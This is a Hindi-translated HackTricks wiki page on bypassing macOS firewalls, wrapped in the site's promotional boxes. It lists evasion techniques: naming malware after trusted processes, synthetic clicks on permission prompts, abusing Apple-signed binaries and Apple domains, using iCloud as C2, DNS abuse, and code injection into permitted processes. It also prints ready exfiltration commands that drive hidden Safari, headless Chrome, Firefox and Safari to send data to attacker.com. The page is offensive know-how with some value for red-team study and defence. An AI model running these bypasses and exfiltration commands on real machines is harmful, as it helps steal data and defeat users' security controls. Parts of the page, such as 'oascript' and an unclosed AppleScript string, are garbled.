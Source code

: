 # macOS Bypassing Firewalls

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Found techniques

निम्नलिखित तकनीकें कुछ macOS फ़ायरवॉल ऐप्स में काम करती पाई गईं।

### Abusing whitelist names

* उदाहरण के लिए, **`launchd`** जैसे प्रसिद्ध macOS प्रक्रियाओं के नामों के साथ मैलवेयर को कॉल करना।

### Synthetic Click

* यदि फ़ायरवॉल उपयोगकर्ता से अनुमति मांगता है, तो मैलवेयर को **अनुमति पर क्लिक** कराना।

### **Use Apple signed binaries**

* जैसे **`curl`**, लेकिन अन्य जैसे **`whois`** भी।

### Well known apple domains

फ़ायरवॉल प्रसिद्ध एप्पल डोमेन जैसे **`apple.com`** या **`icloud.com`** के लिए कनेक्शन की अनुमति दे सकता है। और iCloud को C2 के रूप में उपयोग किया जा सकता है।

### Generic Bypass

फ़ायरवॉल को बायपास करने के लिए कुछ विचार।

### Check allowed traffic

अनुमत ट्रैफ़िक को जानने से आपको संभावित रूप से व्हाइटलिस्टेड डोमेन या उन अनुप्रयोगों की पहचान करने में मदद मिलेगी जिन्हें उन तक पहुँचने की अनुमति है।
```bash
lsof -i TCP -sTCP:ESTABLISHED
```
### DNS का दुरुपयोग

DNS समाधान **`mdnsreponder`** साइन किए गए एप्लिकेशन के माध्यम से किए जाते हैं जो शायद DNS सर्वरों से संपर्क करने की अनुमति दी जाएगी।

<figure><img src="../../.gitbook/assets/image (468).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### ब्राउज़र ऐप्स के माध्यम से

* **oascript**
```applescript
tell application "Safari"
run
tell application "Finder" to set visible of process "Safari" to false
make new document
set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```
* गूगल क्रोम

{% code overflow="wrap" %}
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
{% endcode %}

* फ़ायरफ़ॉक्स
```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```
* सफारी
```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```
### प्रक्रियाओं में कोड इंजेक्शन के माध्यम से

यदि आप किसी ऐसे **प्रक्रिया में कोड इंजेक्ट कर सकते हैं** जिसे किसी भी सर्वर से कनेक्ट करने की अनुमति है, तो आप फ़ायरवॉल सुरक्षा को बायपास कर सकते हैं:

{% content-ref url="macos-proces-abuse/" %}
[macos-proces-abuse](macos-proces-abuse/)
{% endcontent-ref %}

## संदर्भ

* [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
